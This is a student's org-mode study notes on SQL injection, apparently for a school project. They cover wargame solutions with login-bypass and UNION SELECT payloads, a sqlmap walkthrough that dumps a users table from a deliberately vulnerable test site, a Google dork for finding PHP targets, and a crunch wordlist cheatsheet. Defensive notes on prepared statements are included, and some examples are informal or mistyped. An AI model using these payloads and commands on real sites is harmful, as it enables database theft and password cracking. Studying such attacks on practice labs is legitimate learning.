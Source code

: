 * Learn SQLi                                       :school:homework:project:
** How SQL injection works                                 :school:homework:
     CLOSED: [2020-12-19 Sat 19:37]
     :PROPERTIES:
     :ID:       51b42eba-f73b-4b56-974e-b84179b4c472
     :END:
     :LOGBOOK:
     CLOCK: [2020-12-18 Fri 09:54]--[2020-12-18 Fri 10:24] =>  0:30
     :END:
     *[[https://www.youtube.com/watch?v=_jKylhJtPmI][Computerphile video link]]*
*** What is vulnerable to SQL injection?
      :PROPERTIES:
      :ID:       26ff3d7a-e71a-4d49-862e-e5b7856d2c24
      :END:
- Mostly legacy or shitty sites
- Websites that use PHP
  - PHP runs server-side
  - Often login forms
  - Unsanitized forms
- Allows for quote marks and other special symbols to be inserted in to the form
  - "injecting"
*** How SQL code injection works
      :PROPERTIES:
      :ID:       54ba157a-0c72-4f97-8800-b62f56ea25a1
      :END:
- Data gets sent via POST request, PHP constructs an SQL query, SQL query is then run, results are then used (sometimes sent back, etc etc)
- Quote marks can change how something is interpreted
- Consider this example:
  - There is a form that asks for a username
  - Entering joe into the form makes the SQL interpreted look like this:
    #+BEGIN_SRC sql
    SELECT * FROM USERS WHERE USERNAME = 'joe'
    #+END_SRC
    - This runs normally, and everything works fine
  - Sending "joe'" (without the dquotes) would make it look like this (providing the form is unsanitized):
    #+BEGIN_SRC sql
    SELECT * FROM USERS WHERE USERNAME = 'joe''
    #+END_SRC
    - This doesn't run correctly, and the SQL has an issue
    - The quote marks don't match up and it gets screwed up
- You can do a lot of bad stuff just by inserting the quotes
  - One can make it run other stuff
    - Sending "joe' OR 1=1" selects everything (something that is always true acts like a wildcard)
      #+BEGIN_SRC sql
      SELECT * FROM USERS WHERE USERNAME = 'joe' OR 1=1
      #+END_SRC
    - Sending "joe'; DELETE EVERYTHING" will /really/ cause headaches for everyone there
      #+BEGIN_SRC sql
      SELECT * FROM USERS WHERE USERNAME = 'joe'; DELETE EVERYTHING
      #+END_SRC
      - It literally deletes everything 
    - Keywords that can wreak havoc:
      - DELETE :: Does what it sounds like.
      - UPDATE :: Changes stuff.
      - INSERT :: Adds new stuff.
      - DROP :: Deletes whole tables, columns, databases, etc.
*** SQL (programming)
      :PROPERTIES:
      :ID:       f042122f-e791-4e97-bfb8-28b4846124cb
      :END:
      :BACKLINKS:
      [2020-12-19 Sat 19:47] <- [[id:5107d188-a937-4625-a858-16b27c0e9df0][Manually checking]]
      [2020-12-19 Sat 18:52] <- [[id:40aeb44a-da7f-40fd-89ff-85dd68c1d73f][PHP (programming)]]
      :END:
- Programming language for databases
- Almost plain-english
- Sends a request/query to a database, gives a response from the database
**** Creation of SQL
       :PROPERTIES:
       :ID:       c290916e-44fd-49e5-bee0-ff0cfaa479ae
       :END:
- Created so that you could search files and stuff near the invention of the WWW
- 
*** PHP (programming)
      :PROPERTIES:
      :ID:       40aeb44a-da7f-40fd-89ff-85dd68c1d73f
      :END:
- Scripting language
- Easy to write in
- Runs server-side
- Can easily be insecure
- Often used in conjunction with [[id:f042122f-e791-4e97-bfb8-28b4846124cb][SQL]]
** TODO SQL Injection Practice+Notes
     :PROPERTIES:
     :ID:       0b7cc919-dea1-4dfe-b20c-85c3393dbfa9
     :END:
[[wechall.net/active_sites][Place to find sites]]
*** 2021-01-04: RedTiger Lvl 1
      :LOGBOOK:
      CLOCK: [2021-01-04 Mon 14:42]--[2021-01-04 Mon 15:59] =>  1:17
      :END:
[[redtiger.labs.overthewire.org/level1.php][Link]]
- Target :: Get the login for user Hornoxe
- Hint :: n/a
- Tablename :: level1_users
- Solution :: using cURL is one way, but can also be put as a URL into the web browser
  - Solution is below
  #+BEGIN_SRC bash
  --silent --insecure "https://redtiger.labs.overthewire.org/level1.php?cat=1%20union%20select%201,2,username,password%20from%20leve1_users"
  #+END_SRC
- How the solution works:
  - cURL visits the site
  - After the question mark, it is making the request
  - FROM designates the table
  - UNION combines the results together, so it shows everything
  - Select selects the stuff
*** 2020-01-04: RedTiger Lvl 2
- Target :: login bypass
- Hint :: n/a
- Solution :: bypass it really easy with the code blow:
  #+BEGIN_SRC sql
  ' OR 1='1
  #+END_SRC
  - Allows 
*** 2020-01-06: HackThisSite easy missions 
:PROPERTIES:
:ID:       9bd94729-aaf5-4b95-80d0-eca2741eab35
:END:
Honestly too easy to put the solutions here, it would be a waste of time
*** 2020-01-07: TechPanda SQL injection
[[techpanda.org/index.php]]
- Easy enough
- Solution:
  #+BEGIN_SRC sql
  asdf') OR 1=1 -- ]
  #+END_SRC
  - How it works :: This goes in the password field. The request created hashes the passwords, hence the inclusion of the parenthesis (the hashing bit looks like algorithm('password') so we have to close the parenthesis). Otherwise, just a regular login bypass
*** 2020-01-07: The Lord of the SQLi
[[https://los.rubiya.kr]]
The first three are easy or whatever.
First one
** Defending against SQL injection
     :PROPERTIES:
     :ID:       312ddd02-5c79-4418-9cf5-c17dd05e924a
     :END:
     - Escaping characters :: Make it go through and put a back/forward/whatever slash before dangerous characters like quotes, making them not run stuff. Not a good way to do it.
     - Prepared statements :: The correct way. Put a question mark, and then later fill it and treat it as just text and as unsafe (gross oversimplification).
** Tools for SQLi
*** SQL Fiddle
[[https://sqlfiddle.com][Link]]
- Allows you to run SQL code online
- Useful to see what you can do with it
- Put the backend code on the left pane
- Put the request code on the right pane
*** SQLmap
- Used for automated SQL injection
- Preinstalled with Kali Linux
**** When to use
- 
* TODO [#B] Udemy Course SQLi Notes + Make Cheatsheet
DEADLINE: <2021-02-05 Fri>
:PROPERTIES:
:ID:       f125ec4b-563f-4f01-99e9-d221a807a1ec
:END:
:LOGBOOK:
CLOCK: [2021-01-18 Mon 13:12]--[2021-01-18 Mon 13:20] =>  0:08
:END:
** Database attack basics
*** How SQL queries work
- Client sends a request to database
- Database constructs query from that
- Runs the query and then returns the results
- SQL is used to communicate
*** How SQL attacks work
- You send malicious content to the database, and it sends back the stuff you want
- You can get IDs, password hashes, emails, and usernames
*** Database structure
- Data is the lowest thing
  - It is the actual stuff
  - Data is what you are after
- Data is contained in rows and columns
  - Each person/item has their/its own row
  - Each person's data corresponds to a different column
- Columns are in tables
  - You might have a column for username, hashed password, and email
- Tables are in the database
  - You might have four different tables in a database
  [[/home/jadench/Documents/School/Apocalypse-2021_School_Year/Science_Research/sqlInjection.org_2021-01-18_131405_z5O9l3.png]]
**** You gather information in this order
1. Find the database and the interface to it
2. Find the names of the tables
3. Find the names of the columns in the tables
4. Get the actual rows of data
** SQLmap cheatsheet
:LOGBOOK:
CLOCK: [2021-01-22 Fri 09:50]--[2021-01-22 Fri 10:31] =>  0:41
CLOCK: [2021-01-18 Mon 13:20]--[2021-01-18 Mon 13:34] =>  0:14
:END:
*** Overview of SQLmap
- CLI tool
- Prepackaged with Kali Linux
- Is an automatic sql injection tool
- Best tool for this in Kali Linux
*** Command line options
:PROPERTIES:
:ID:       53ccfc85-7fbc-42d5-937d-97e6b3f8af3e
:END:
+ ~--dbs~ :: Scans for databases. [[id:0918c9b6-0e12-4b4d-83b7-df782012847f][Example]]
+ ~-D~ :: allows you to specify a database. [[id:37b1b496-a771-4681-bde4-2cdd08b2e51b][Example where database is specified]]
+ ~-T~ :: Specifies a table name. [[id:b4884a91-fece-49be-ac19-9b3da86333a3][Example]]
+ ~-C~ :: Specifies a column name. Often paired with ~--dump~ to dump all data from column. [[id:2b9427b6-0bcf-4f2c-813a-ae6e1eed20af][Example]]
+ ~--tables~ :: Returns the tables in a database. [[id:37b1b496-a771-4681-bde4-2cdd08b2e51b][Example]]
+ ~--columns~ :: Returns the columns in a table. [[id:b4884a91-fece-49be-ac19-9b3da86333a3][Example]]
*** Setup to attack website 
**** Find the URL with PHP
- Copy the URL, then go into a new tab with google
- type site://whatever.url/ php?id=
- Searches the base URL for all of the different PHP things
**** Understand the legality of doing this
Unless it's your site, you have express permission, or its for that purpose, don't do it.
*** Attack the website
**** Find the database names with SQLmap
:PROPERTIES:
:ID:       0918c9b6-0e12-4b4d-83b7-df782012847f
:END:
:BACKLINKS:
[2021-01-28 Thu 09:44] <- [[id:53ccfc85-7fbc-42d5-937d-97e6b3f8af3e][Command line options]]
:END:
#+BEGIN_SRC bash
sqlmap -u "testphp.vulnweb.com/artists.php?artist=1" --dbs
#+END_SRC
- Finds the databases of the website
- Figures out that backend is MySQL, and asks if we want to skip test payloads for other DBMSes
  - DBMS stands for database management system
  - Answer yes
- Asks if you want to include all tests for MySQL
  - Answer yes
- Let the test run and figure stuff out
- Don't test for other stuff
- Returns two available databases
  - acuart 
  - information_schema
  - We will target acuart
**** Find tables within database
:PROPERTIES:
:ID:       37b1b496-a771-4681-bde4-2cdd08b2e51b
:END:
:BACKLINKS:
[2021-01-28 Thu 09:47] <- [[id:53ccfc85-7fbc-42d5-937d-97e6b3f8af3e][Command line options]]
[2021-01-28 Thu 09:45] <- [[id:53ccfc85-7fbc-42d5-937d-97e6b3f8af3e][Command line options]]
:END:
#+BEGIN_SRC bash
sqlmap -u "testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables
#+END_SRC
- Figures out the tables in the database "acuart"
- Returns tables:
  - artists
  - carts
  - categ
  - featured
  - guestbook
  - pictures
  - products
  - users
**** Get the columns from a table
:PROPERTIES:
:ID:       b4884a91-fece-49be-ac19-9b3da86333a3
:END:
:BACKLINKS:
[2021-01-28 Thu 09:49] <- [[id:53ccfc85-7fbc-42d5-937d-97e6b3f8af3e][Command line options]]
[2021-01-28 Thu 09:49] <- [[id:53ccfc85-7fbc-42d5-937d-97e6b3f8af3e][Command line options]]
:END:
#+BEGIN_SRC bash
sqlmap -u "testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns
#+END_SRC
- Finds the columns in the table users in the database acuart
- Finds eight columns:
  |---------+--------------|
  | Column  | Type         |
  |---------+--------------|
  | name    | varchar(100) |
  | address | mediumtext   |
  | cart    | varchar(100) |
  | cc      | varchar(100) |
  | email   | varchar(100) |
  | pass    | varchar(100) |
  | phone   | varchar(100) |
  | uname   | varchar(100) |
  |---------+--------------|
**** Get data from columns10
#+BEGIN_SRC bash
sqlmap -u "testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname --dump
#+END_SRC
- 
- Returns:
  ~[1 entry]~
  |-------|
  | uname |
  |-------|
  | test  |
  |-------|
**** Get data from column
:PROPERTIES:
:ID:       2b9427b6-0bcf-4f2c-813a-ae6e1eed20af
:END:
:BACKLINKS:
[2021-01-28 Thu 09:47] <- [[id:53ccfc85-7fbc-42d5-937d-97e6b3f8af3e][Command line options]]
:END:
~sqlmap -u "testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C pass --dump~
- Retrieves all data from the column "pass"
- Returns:
  |------|
  | pass |
  |------|
  | test |
  |------|
**** Sign in with data we found
- Uses the data we got by sql injection
- Username :: test
- Pasword :: test
**** Data storage locations
Everything sqlmap does to a site is shown in ~~/.local/share/sqlmap/output/$url~
- Includes logs, target, session, and a bunch of other stuff
- SQLmap tables are usually dumped to ~~/.local/share/sqlmap/output/$url/dump/$tablename/~
** Crunch cheatsheet
Crunch is a tool that is used to create personal dictionaries or other things for cracking. It can create:
- Wordlists
- Dictionaries
- Other stuff
*** Command line options
Crunch commands are formatted like this: ~crunch <min> <max> <charlist> [options]~
- ~<min>~ :: Specifies the minimum number of characters (like 2 would mean down to two char long). Integer.
- ~<max>~ :: Specifies the maximum number of characters (like 5 would mean up to 5 char long). Integer.
- ~<charlist>~ :: A string that gives the characters you want in your wordlist. Example: "abcd123", which would give all the combinations between ~<min>~ and ~<max>~ characters using only a, b, c, d, 1, 2, and 3.
  - To add characters like a double quote or single quote, escape them with a backslash
- ~-o~ :: Specifies the output file. Normally, crunch prints to stdout, but it's often more useful to write to a file.
*** Usage
Example command:
~$ crunch 8 10 "abcdefghijklmnopqrstuvwxyz0123456789" -o passwordCrunch.txt~
- Creates all alphanumeric (no capitals) combinations between 8 and 10 characters and saves it to passwordCrunch.txt
- Creates a large file (you are warned about this)
** 

